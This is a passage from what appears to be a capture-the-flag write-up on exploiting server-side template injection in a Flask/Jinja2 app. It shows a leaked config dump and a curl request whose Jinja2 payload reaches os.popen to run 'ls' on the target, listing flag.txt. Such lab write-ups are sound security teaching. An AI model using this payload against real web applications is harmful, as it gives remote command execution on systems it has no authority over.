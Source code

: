 ```console
<p>The page '<str>dict_items([(&#39;ENV&#39;, &#39;production&#39;), (&#39;DEBUG&#39;, False), (&#39;TESTING&#39;, False), (&#39;PROPAGATE_EXCEPTIONS&#39;, None), (&#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;, None), (&#39;SECRET_KEY&#39;, None), (&#39;PERMANENT_SESSION_LIFETIME&#39;, datetime.timedelta(days=31)), (&#39;USE_X_SENDFILE&#39;, False), (&#39;SERVER_NAME&#39;, None), (&#39;APPLICATION_ROOT&#39;, &#39;/&#39;), (&#39;SESSION_COOKIE_NAME&#39;, &#39;session&#39;), (&#39;SESSION_COOKIE_DOMAIN&#39;, None), (&#39;SESSION_COOKIE_PATH&#39;, None), (&#39;SESSION_COOKIE_HTTPONLY&#39;, True), (&#39;SESSION_COOKIE_SECURE&#39;, False), (&#39;SESSION_COOKIE_SAMESITE&#39;, None), (&#39;SESSION_REFRESH_EACH_REQUEST&#39;, True), (&#39;MAX_CONTENT_LENGTH&#39;, None), (&#39;SEND_FILE_MAX_AGE_DEFAULT&#39;, datetime.timedelta(seconds=43200)), (&#39;TRAP_BAD_REQUEST_ERRORS&#39;, None), (&#39;TRAP_HTTP_EXCEPTIONS&#39;, False), (&#39;EXPLAIN_TEMPLATE_LOADING&#39;, False), (&#39;PREFERRED_URL_SCHEME&#39;, &#39;http&#39;), (&#39;JSON_AS_ASCII&#39;, True), (&#39;JSON_SORT_KEYS&#39;, True), (&#39;JSONIFY_PRETTYPRINT_REGULAR&#39;, False), (&#39;JSONIFY_MIMETYPE&#39;, &#39;application/json&#39;), (&#39;TEMPLATES_AUTO_RELOAD&#39;, None), (&#39;MAX_COOKIE_SIZE&#39;, 4093)])</str>' could not be found</p>
```  

We were successful once again, the final exploit is taking shape!  
Continuing the research I understand that we can take advantage of the Pyton *MRO* (Method Resolution Order) to build a more targeted payload,<br/> going up the dependency tree of the Python classes.

After another bit of research I learned the syntax to execute the python <a href="https://docs.python.org/3/library/subprocess.html#subprocess.Popen" target="_blank">popen</a></li> process:
```console
curl $'http://138.68.156.57:32358/%7B%7Brequest.application.__globals__.__builtins__.__import__(\'os\').popen(\'ls\').read()%7D%7D' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux aarch64; rv:104.0) Gecko/20100101 Firefox/104.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1'

<h1>Error 404</h1>
<p>The page '<str>bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
</str>' could not be found</p>%   
```
